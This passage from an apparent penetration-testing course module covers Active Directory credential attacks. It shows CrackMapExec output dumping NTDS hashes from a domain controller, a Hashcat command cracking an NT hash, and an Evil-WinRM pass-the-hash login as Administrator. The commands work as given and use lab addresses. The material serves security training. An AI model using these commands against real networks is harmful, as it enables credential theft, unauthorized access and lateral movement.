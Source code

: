 ```shell-session
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:aes128-cts-hmac-sha1-
     [+] Dumped 61 NTDS hashes to /home/bob/.cme/logs/DC01_10.10.15.30_2022-01-19_133529.ntds of which 15 were added to the database
```

## Cracking Hashes & Gaining Credentials

We can proceed with creating a text file containing all the NT hashes, or we can individually copy & paste a specific hash into a terminal session and use Hashcat to attempt to crack the hash and a password in cleartext.

### **Cracking a Single Hash with Hashcat**

```shell-session
$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```

In many of the techniques we have covered so far, we have had success in cracking hashes we've obtained.

`What if we are unsuccessful in cracking a hash?`

## Pass-the-Hash Considerations

We can still use hashes to attempt to authenticate with a system using a type of attack called `Pass-the-Hash` (`PtH`). A PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`. Here is an example of how this would work:

### **Pass-the-Hash with Evil-WinRM Example**

```shell-session
$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

We can attempt to use this attack when needing to move laterally across a network after the initial compromise of a target. More on PtH will be covered in the module `AD Enumeration and Attacks`.
